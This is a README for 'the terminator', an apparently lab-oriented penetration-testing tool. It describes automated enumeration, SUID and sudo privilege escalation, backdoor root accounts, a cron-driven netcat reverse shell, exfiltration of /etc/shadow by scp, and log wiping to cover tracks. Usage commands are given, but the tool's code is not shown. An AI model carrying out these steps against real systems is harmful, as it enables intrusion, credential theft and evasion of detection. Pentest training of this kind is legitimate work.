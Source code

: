 ![terminator-logo](https://github.com/suffs811/writeups/blob/main/terminator-img/small-terminator.png)
# the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

>check out the terminator's TryHackMe [room](https://tryhackme.com/jr/theterminator) to learn how to use this powerful tool!

>*feel free to use and test the terminator and share your suggestions in the Discussions*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
1) clone the repository to your computer
- `git clone https://github.com/suffs811/the-terminator.git`
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

2) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- `python3 terminator.py enum -t <target_ip_to_enumerate>`
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- `python3 terminator.py priv -u <new_root_username> -p <new_root_passwd>`

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- `python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>`
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- `python3 terminator.py report -o <output_file_name>`

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and search web page source code for 'username' and 'password'
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen (the terminator can exploit over 30 different commands!)
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen (over 30 SUID files can be used by the terminator!)
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary (the terminator looks for 57 different commands to exploit!)
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every minute

*if cronjob is not working, you might need to run 'crontab -e' then just add a space under the cronjob, and exit the file with 'Ctrl+x', 'y', 'enter'*

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (peristence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

-+- Leave a comment if you have any questions! -+-

